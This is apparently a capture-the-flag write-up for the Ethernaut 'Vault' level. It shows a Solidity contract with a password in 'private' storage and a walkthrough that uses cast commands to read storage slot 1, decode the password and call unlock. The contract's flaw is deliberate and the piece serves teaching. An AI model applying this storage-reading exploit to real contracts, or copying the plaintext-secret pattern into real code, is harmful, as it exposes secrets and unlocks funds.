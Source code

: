 # Vault Level Outline

**Difficulty : 3/10**

Unlock the vault to pass the level!

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0xf94b476063B6379A3c8b6C836efB8B3e10eDe188)

## Solution

Nothing on the blockchain is private, not even private variables. We can probe the memory slot from the smart contract to find the value of password.

- Storage slot 0 = locked

- Storage slot 1 = password

So to find the value of password we inspect storage slot 1.

### Walkthrough
##### 1. Inspect the first storage slot of the vault 
```console
cast storage $LEVEL_ADDRESS 1
```
output 
```console
0x412076657279207374726f6e67207365637265742070617373776f7264203a29
```

##### 2. For fun lets see the hex data in utf8 format
```console
cast --to-ascii 0x412076657279207374726f6e67207365637265742070617373776f7264203a29
```
output 
```console
A very strong secret password :)
```

##### 3. Call the "unlock(bytes32)" function with the extracted password
```console
cast send $LEVEL_ADDRESS "unlock(bytes32)" 0x412076657279207374726f6e67207365637265742070617373776f7264203a29 --private-key $PRIVATE_KEY 
```
## Further Reading
To ensure that data is private, it needs to be encrypted before being put onto the blockchain. In this scenario, the decryption key should never be sent on-chain, as it will then be visible to anyone who looks for it. [zk-SNARKs](https://blog.ethereum.org/2016/12/05/zksnarks-in-a-nutshell/) provide a way to determine whether someone possesses a secret parameter, without ever having to reveal the parameter.


### [:arrow_left: Back To Main Menu](../)
